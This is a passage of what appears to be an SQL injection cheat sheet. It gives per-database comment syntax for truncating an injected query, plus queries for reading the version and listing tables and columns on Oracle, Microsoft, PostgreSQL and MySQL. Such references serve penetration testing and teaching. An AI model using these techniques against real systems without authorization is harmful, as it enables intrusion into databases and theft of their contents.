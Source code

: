 You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle

`--comment  
`

Microsoft

`--comment  
/*comment*/`

PostgreSQL

`--comment  
/*comment*/`

MySQL

`#comment`  
`-- comment` [Note the space after the double dash]  
`/*comment*/`

### Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle

`SELECT banner FROM v$version  
SELECT version FROM v$instance  
`

Microsoft

`SELECT @@version`

PostgreSQL

`SELECT version()`

MySQL

`SELECT @@version`

### Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

Oracle

`SELECT * FROM all_tables  
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`

Microsoft

`SELECT * FROM information_schema.tables  
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'  
`
